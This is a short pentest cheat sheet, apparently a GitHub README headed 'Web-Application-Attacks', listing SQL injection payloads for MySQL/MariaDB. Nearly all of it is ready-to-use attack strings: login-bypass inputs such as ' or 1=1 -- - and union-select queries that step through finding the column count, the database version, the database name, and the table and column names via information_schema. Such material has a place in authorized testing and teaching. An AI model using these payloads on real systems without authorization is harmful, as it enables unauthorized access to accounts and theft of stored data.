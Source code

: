 # Web-Application-Attacks

# **web_application_attacks**

# Pentest Web

## SQL Injection - MySQL/MariaDB

- > Bypass Authentication

```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- -
' or 1=1 limit 1,1 -- -

```

- > get number columns

```
-1 order by 3;#

```

- > get version

```
-1 union select 1,2,version();#

```

- > get database name

```
-1 union select 1,2,database();#

```

- > get table name

```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#

```

- > get column name

```
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#

```
